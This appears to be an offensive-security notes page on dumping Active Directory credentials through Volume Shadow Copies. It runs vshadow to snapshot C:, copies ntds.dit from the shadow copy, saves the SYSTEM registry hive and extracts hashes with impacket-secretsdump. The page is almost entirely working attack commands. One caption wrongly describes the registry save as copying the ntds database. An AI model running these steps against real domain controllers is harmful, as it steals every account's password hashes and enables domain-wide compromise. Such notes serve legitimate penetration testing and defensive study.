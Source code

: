 # Shadow Copies



Launch an elevated command prompt and run the **vshadow** utility to perform a shadow copy of the entire C: drive:

```powershell
vshadow.exe -nw -p  C:
```

* **-nw:** [_disable writers_](https://learn.microsoft.com/en-us/windows/win32/vss/shadow-copy-creation-details) _(_&#x73;peeds up backup creation)
* **-p:** store the copy on disk

Take note of the Shadow copy device name: <mark style="color:red;">`Shadow copy device name: \?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2`</mark>

Copy the whole AD Database from the shadow copy to the **C:** drive root folder:

{% code overflow="wrap" %}
```powershell
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak
```
{% endcode %}

* specify the _shadow copy device name_ and add the full **ntds.dit** path

Copy the ntds database to the C: drive:

```powershell
reg.exe save hklm\system c:\system.bak
```



{% code overflow="wrap" %}
```sh
impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
```
{% endcode %}

